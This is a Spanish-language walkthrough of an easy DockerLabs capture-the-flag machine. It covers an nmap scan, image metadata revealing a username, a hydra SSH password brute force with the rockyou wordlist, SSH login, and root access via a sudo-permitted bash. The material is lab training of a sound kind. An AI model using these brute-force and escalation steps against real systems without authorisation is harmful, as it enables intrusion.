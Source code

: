 # borazuwarahctf

Maquina borazuwarahctf de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Autor: [BorazuwarahCTF](https://github.com/borazuwarah/)

![Dock](./images/borazuwarahctf/imagenes/dock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -sVC 172.17.0.2
```

```css
Nmap scan report for 172.17.0.2
Host is up (0.00054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds
```

No vemos nada interesante por lo que continuaremos desde el navegador. Al entrar se ve una imagen de un huevo kinder y al hacer un poco de fuzzing no encontramos nada, por lo que sospecho que trata de `Esteganografía`, lo que significa que puede haber archivos escondidos dentro de la imagen. Para hacerlo nos descargamos la imagen y ejecutamos el siguiente comando:

```css
steghide extract -sf imagen.jpeg
```

nos pide un salvoconducto pero como no lo tenemos le damos al enter y nos extrae un archivo llamado "secret.txt", lo leemos y nos dice que no esta ahi la solución pero _si esta en la imagen_, sabiendo esto podemos usar `exiftool`, para hacerlo ejecutamos:

```css
exiftool imagen.jpeg
```

```ruby
ExifTool Version Number         : 12.57
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:08:19 15:39:19-03:00
File Access Date/Time           : 2024:08:19 15:39:19-03:00
File Inode Change Date/Time     : 2024:08:19 15:39:37-03:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Como vemos, ahora si encontramos la solucion pero a medias, ya que nos da un usuario llamado "borazuwarah" pero no la contraseña, por lo que recurriremos a usar hydra, para hacerlo ejecutamos el siguiente comando:

```css
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

```abap
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Como vemos, nos encuentra la contraseña para el usuario "borazuwarah" que es "123456".

## INTRUSION

Ahora simplemente nos conectamos al ssh con:

```css
ssh borazuwarah@172.17.0.2
```

y ponemos la contraseña.

Ya estamos dentro.

## ESCALADA DE PRIVILEGIOS

Ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, y vemos que el binario bash si se puede, por lo que simplemente ponemos:

```abap
 sudo /bin/bash -p
```

Y listo, _SOMOS ROOT_.

![root](./images/borazuwarahctf/imagenes/roott.png)

Gracias por leer.

